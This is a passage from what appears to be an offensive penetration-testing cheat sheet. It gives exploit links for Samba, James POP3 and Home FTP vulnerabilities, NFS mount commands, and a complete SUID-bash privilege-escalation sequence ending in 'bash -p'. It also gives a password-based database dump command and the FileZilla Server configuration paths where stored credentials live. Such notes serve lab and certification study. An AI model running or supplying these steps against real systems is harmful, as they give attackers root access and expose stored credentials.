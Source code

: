 -----

#### Symlink Directory Traversal ( < 3.4.5)
- Tested on 3.0.24
    - https://github.com/roughiz/Symlink-Directory-Traversal-smb-manually

-----

#### Samba 2.2.x - Remote Buffer Overflow
- Tested on 2.2.7a
    - https://www.exploit-db.com/exploits/7

-----

### POP3

- JAMES POP3 Server 2.3.2
    - Change payload
    - https://www.exploit-db.com/exploits/35513
- Dump
    - `PGPASSWORD="{PASSWORD}" pg_dump {DB_NAME} > test.dump`

-----

### NFS
* Show Mount
  - `showmount -e {IP}`
* Mount
  - `sudo mount -t nfs {IP}:{share} /tmp/mount -nolock`
  - `sudo mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs`
  - `sudo mount -t nfs localhost:/ /tmp/meow`
* Privilege Esclaction
  - `cp /bin/bash {PATH}`
  - `sudo chown root bash`
  - `sudo chmod +x bash`
  - `sudo chmod +s bash`
  - `bash -p`

-----

### FTP

#### Home FTP

- [Home FTP Server 1.12 - Directory Traversal](https://www.exploit-db.com/exploits/16259)
- [Home FTP File Download](https://webcache.googleusercontent.com/search?q=cache:92M05_e2PYcJ:https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/0911-exploits/homeftpserver-traversal.txt+&cd=4&hl=zh-TW&ct=clnk&gl=tw&client=firefox-b-d)
- FileZilla
    - Default password location
        - `C:\Program Files\FileZilla Server\FileZilla Server.xml`
        - `C:\Program Files(x86)\FileZilla Server\FileZilla Server.xml`
